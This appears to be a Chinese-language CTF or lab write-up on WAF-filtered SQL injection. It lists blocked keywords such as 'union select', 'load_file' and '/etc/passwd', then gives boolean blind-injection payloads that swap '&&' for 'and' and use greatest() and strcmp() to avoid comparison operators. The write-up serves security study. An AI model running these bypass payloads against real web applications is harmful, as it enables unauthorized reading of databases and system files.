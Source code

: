 
## 测试过滤

这里没有报错信息的回显，所以尝试联合查询与盲注

- 尝试联合查询`admin' order by 5 #`测试为5个字段
- 但继续`union select`被过滤

这里发现，可以查询的所有字段都过了waf，所以没必要每次都先把author输入框显示再测试，直接在id框测试即可，测试拦截了如下：

- `union select `
- `and/or =/>/<`
- `database(`
- `load_file`
- `/etc/passwd`
- `into outfile`

## 注入方式

[SQL注入绕过技巧](https://www.cnblogs.com/Vinson404/p/7253255.html)

联合查询过滤了union select，尝试一些大小写或者放进注释中的绕过均失败，所以认为这里只能采取盲注，尝试布尔盲注，一般payload如下：

```sql
admin' and ascii(substr((user()),1,1)) > 1 #
```

### 绕过and

但是`and =`被过滤，尝试用`&&`代替`and`，`||`代替`or`

```sql
admin' && ascii(substr((user()),1,1)) > 1 #
```

### 绕过比较符号

#### greates()

```sql
admin' and greatest(ascii(substr(user(),0,1)),64) like 64 #
```

#### strcmp()

或者用strcmp绕过比较符号

```sql
admin' and strcmp(ascii(substr(user(),1,1)),1)#
```

比较两个字符串，如果这两个字符串相等返回0，如果第一个参数是根据当前的排序小于第二个参数顺序返回-1，否则返回1。

```sql
mysql> select strcmp(2,1),strcmp(2,2),strcmp(2,3);
+-------------+-------------+-------------+
| strcmp(2,1) | strcmp(2,2) | strcmp(2,3) |
+-------------+-------------+-------------+
|           1 |           0 |          -1 |
+-------------+-------------+-------------+
```
